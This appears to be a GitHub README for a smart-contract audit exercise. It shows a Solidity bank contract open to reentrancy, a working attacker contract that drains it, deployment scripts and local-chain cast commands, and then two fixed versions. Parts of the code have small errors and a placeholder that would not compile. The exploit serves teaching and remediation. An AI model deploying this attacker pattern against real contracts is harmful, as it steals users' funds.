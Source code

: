 # Web3eg-Smart-Contract-Auditor-Reentrancy-
- The provided Bank contract is vulnerable to a reentrancy attack. This vulnerability occurs because the contract updates the user's balance (balances[msg.sender] = 0) after sending Ether to the user. An attacker can exploit this by recursively calling the withdrawEth function before the balance is updated, draining the contract's funds.

```solidity
//SPDX-Liecense-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank{

    mapping(address =>uint256) public balances;

    function depositEth() payable{
        balances[msg.sender] += msg.value;
        
    }

    function withdrawEth() public{
        uint amount = balances[msg.sender];
        (bool sent,) = msg.sender.call{value : amount}("");
        require(sent,"Failed to send Ether");

        balances[msg.sender] = 0 ;
    }
}
```

- Below, I'll explain how to exploit this vulnerability and provide an example of an attacker contract that performs the reentrancy attack.
  The withdrawEth function has the following vulnerable logic:
   It checks the user's balance: uint amount = balances[msg.sender];
   It sends Ether to the user: msg.sender.call{value: amount}("").
   It updates the user's balance to 0: balances[msg.sender] = 0.
  - Contract  To Attack 
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "src/Bank.sol"
contract Attack {
    Bank public bank;

    constructor(address _bankAddress) payable {
        bank = Bank(_bankAddress);
    }

    // Fallback function to receive Ether and initiate reentrancy
    receive() external payable {
        if (address(bank).balance >= 1 ether) {
            bank.withdrawEth();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether, "Send at least 1 Ether");
        bank.depositEth{value: 1 ether}();
        bank.withdrawEth();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

Explanation of the Attack Flow:
The attack function deposits 1 Ether into the Bank contract.
The attack function calls withdrawEth, which sends 1 Ether back to the Attack contract.
The receive function in the Attack contract is triggered, and it recursively calls withdrawEth again before the balance is set to zero.
This process repeats until the Bank contract is drained of its Ether.

- Script To Deploy Bank contract
  
```solidity

//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Bank.sol";

contract DeployBank is Script{

    function run() external {
        vm.startBroadcast();
        Bank bank = new Bank();
        vm.stopBroadcast();
       
    }
}
```
- Script To Deploy Attack Contract With Address Of Bank Contract
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Attack.sol";

contract DeployAttack is Script{

    function run() external {
        vm.startBroadcast();
        Attack attack = new Attack(address(Bank Contract Address));
        vm.stopBroadcast();
       
    }
}
```
- Steps with Command
  
``` cast send <BANK_CONTRACT_ADDRESS> --value 10ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast send <ATTACK_CONTRACT_ADDRESS> "attack()" --value 1ether --rpc-url http://127.0.0.1:8545 --private-key <YOUR_PRIVATE_KEY> ```

``` cast call <ATTACK_CONTRACT_ADDRESS> "getBalance()" --rpc-url http://127.0.0.1:8545 ```

``` cast balance <BANK_CONTRACT_ADDRESS> --rpc-url http://127.0.0.1:8545 ```

- How to Fix the Vulnerability:
```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

contract Bank {
    mapping(address => uint256) public balances;

    function depositEth() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawEth() public {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        // Effects: Update the state before sending Ether
        balances[msg.sender] = 0;

        // Interactions: Send Ether after updating the state
        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
- You can also use a reentrancy guard from OpenZeppelin to add an extra layer of protection:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract Bank is ReentrancyGuard {
    mapping(address => uint256) public balances;

    function depositEth() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawEth() public nonReentrant {
        uint256 amount = balances[msg.sender];
        require(amount > 0, "No balance to withdraw");

        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```


